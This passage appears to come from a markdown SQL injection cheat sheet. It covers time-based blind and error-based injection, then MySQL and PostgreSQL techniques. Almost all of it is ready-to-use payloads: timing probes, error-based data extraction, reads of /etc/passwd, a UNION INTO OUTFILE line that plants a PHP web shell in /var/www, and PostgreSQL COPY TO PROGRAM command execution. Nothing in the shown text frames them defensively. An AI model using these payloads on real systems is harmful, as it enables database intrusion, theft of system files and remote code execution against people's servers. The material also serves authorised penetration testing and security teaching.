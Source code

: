 ### 3. Time-Based Blind Injection

Use time delays to extract information when no visible changes occur.

```sql
-- MySQL
' AND IF(1=1,SLEEP(5),0)--

-- PostgreSQL
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- SQL Server
'; IF (1=1) WAITFOR DELAY '00:00:05'--
```

### 4. Error-Based Injection

Leverage error messages to extract data.

```sql
-- MySQL using ExtractValue
' AND ExtractValue(1,CONCAT(0x7e,(SELECT version()),0x7e))--

-- MySQL using UpdateXML
' AND UpdateXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)--
```

## Database-Specific Techniques

### MySQL

```sql
-- Version detection
' AND @@version LIKE '8%'--

-- File reading (requires FILE privilege)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

-- File writing
' UNION SELECT 1,2,'<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/shell.php'--

-- Information gathering
' UNION SELECT 1,schema_name,3 FROM information_schema.schemata--
```

### PostgreSQL

```sql
-- Version detection
' AND version() LIKE 'PostgreSQL%'--

-- Command execution (if superuser)
'; COPY (SELECT '') TO PROGRAM 'id'--

-- Reading files
' UNION SELECT 1,pg_read_file('/etc/passwd'),3--
```
